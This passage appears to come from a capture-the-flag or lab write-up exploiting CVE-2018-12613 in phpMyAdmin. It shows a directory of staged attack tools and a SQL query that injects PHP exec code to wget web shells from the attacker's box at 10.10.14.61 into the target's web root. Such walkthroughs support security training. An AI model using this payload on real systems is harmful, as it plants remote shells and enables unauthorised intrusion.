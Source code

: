 ```console
root@kali:/var/www/html# ls -la
total 4460
drwxr-xr-x 2 root root    4096 Jul 22 21:04 .
drwxr-xr-x 3 root root    4096 Feb 11 02:35 ..
-rw-r--r-- 1 root root     391 Jul 22 13:23 id_rsa.pub
-rw-r--r-- 1 root root   10701 Jan 30 02:12 index.html
-rw-r--r-- 1 root root   30972 Jul 22 13:23 lse.sh
-rw-r--r-- 1 root root    5493 Jul 22 13:23 php-reverse-shell.txt
-rwxrwx--- 1 root root 4468984 Jul 22 13:23 pspy64
-rw-r--r-- 1 root root   15744 Jul 22 13:23 shell.txt
```


### CVE-2018-12613
In order to exploit the vulnerability, we first navigate to the SQL Tab and run the following query. 

```sql
select '<?php exec("wget -O /var/www/html/shell.php http://10.10.14.61/shell.txt && wget -O /var/www/html/rshell.php http://10.10.14.61/php-reverse-shell.txt ");  ?>'
```
The query contains php calling `exec` to execute shell commands which `wget` the two php shells we put onto our Kali box's apache server, and changing their extensions to `.php`.

![CVE-2018-12613 Setp 1.](/wp-content/uploads/2019/07/jarvis/if_1.png)
**Figure 4:** Paset in malicious query containing php code, click 'go'.
